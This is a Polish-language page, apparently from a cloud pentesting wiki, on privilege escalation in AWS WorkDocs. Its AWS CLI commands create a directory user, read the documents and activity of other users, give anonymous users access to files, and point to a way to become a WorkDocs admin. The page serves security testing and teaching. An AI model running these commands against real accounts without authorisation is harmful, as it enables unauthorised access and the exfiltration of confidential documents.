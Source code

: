 # AWS - Eskalacja uprawnień w WorkDocs

## WorkDocs

Aby uzyskać więcej informacji na temat WorkDocs, sprawdź:

{% content-ref url="../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../../aws-pentesting/aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Utwórz użytkownika wskazanym katalogu, a następnie uzyskasz dostęp zarówno do WorkDocs, jak i AD:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Pliki mogą zawierać poufne informacje, odczytaj je:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Jeśli nie masz dostępu do odczytu czegoś, możesz po prostu go udzielić.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Możesz uczynić użytkownika administratorem, ustawiając go w grupie ZOCALO_ADMIN.\
Aby to zrobić, postępuj zgodnie z instrukcjami z [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Zaloguj się tym użytkownikiem w workdoc i uzyskaj dostęp do panelu administracyjnego w `/workdocs/index.html#/admin`

Nie znalazłem żadnego sposobu, aby to zrobić za pomocą wiersza poleceń (CLI).

